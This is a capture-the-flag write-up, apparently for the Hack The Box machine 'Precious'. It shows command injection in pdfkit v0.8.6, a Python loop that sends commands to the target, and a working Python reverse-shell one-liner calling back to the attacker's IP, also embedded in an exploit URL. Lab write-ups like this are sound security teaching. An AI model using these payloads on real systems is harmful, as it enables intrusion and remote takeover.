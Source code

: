 # Exploit - Remote Code Execution

We can see that the PDF Creator is a tool called **pdfkit v0.8.6**. This version is vulnerable and we can get a RCE (Remote Code Execution). We can see more about this vulnerability [here](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). To exploit this vulnerability, it is simple! We just need to add to the URL a param called **?user** and give a "space" but encoded (a space like %20 is the URL code for a space of the space bar). Next, we need to concatenate a *bash* code (because is a Linux Machine) with the special symbol **`** (a code between 2 of this symbol in bash get execute before the rest of the command outside the symbols) around the code for execute it like if we are in a command line shell. The command we will try is a single ping to our machine to test if we really got remote code execution. The final URL will be:

> http://10.10.14.144/?name=%20`ping -c 1 10.10.14.144`
```bash
# Set up a listener to capture the ping
sudo tcpdump -i tun0 icmp
```

We got a ping back! I also create a tiny script in Python to have a fast way to try remote code execution:

```python
import requests

while True:
    cmd = input("[fAkeSh3ll ~] > ")
    data = {
        'url': f"http://10.10.14.144/?name=%20`{cmd}`",
        }
    response = requests.post('http://precious.htb/', data=data, verify=False)
```

Now, we can try to get a reverse shell. A reverse shell is a type of connection to get a shell in the target machine. But the way we got this is tricky. We need to find a way to the target machine send his own shell to our machine. Is like we try to enter in a house, and we need to find a way that the house open his own door to give us the access... The command worked on the machine was this:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.144",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

So, if we want to do that on the Website, we need to send this url:

```bash
http://10.10.14.144/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.144",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
```

The query needs to be that exact and we need to adapt the IP and the port. We need to setup a listener to capture the shell too.

![Reverse Shell](Assets/HTB-Linux-Easy-Precious/ReverseShell.png)
